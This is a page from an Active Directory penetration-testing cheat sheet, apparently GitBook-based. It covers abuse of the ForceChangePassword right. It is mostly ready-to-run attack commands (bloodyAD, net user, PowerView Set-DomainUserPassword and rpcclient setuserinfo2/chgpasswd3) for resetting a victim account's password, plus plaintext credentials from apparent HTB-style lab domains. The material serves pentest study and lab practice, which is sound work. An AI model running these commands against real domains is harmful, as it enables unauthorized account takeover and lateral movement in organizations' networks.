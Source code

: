 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ForceChangePassword

## Exploitation

<figure><img src="../../../../.gitbook/assets/forcechangepassword_bh.png" alt=""><figcaption><p>Figure 1: User wley has ForceChangePassword rights over user damundsen.</p></figcaption></figure>

{% tabs %}
{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'Password123!'
```
{% endcode %}
{% endtab %}

{% tab title="Native" %}
```powershell
net user <USER> <PASS> /domain
```
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# creating a PSCredential Object for the currently owned user
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
# set the password we want for the target user by creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
# import powerview
Import-Module .\PowerView.ps1
# change the user's password
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="RPC" %}
```bash
rpcclient -U <USER> <IP>
> setuserinfo2 <USER> 23 'ComplexP4ssw0rd!'
# OR
> chgpasswd3 <USER> <OLDPASS> <NEWPASS>
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#forcechangepassword" %}
{% endtab %}
{% endtabs %}
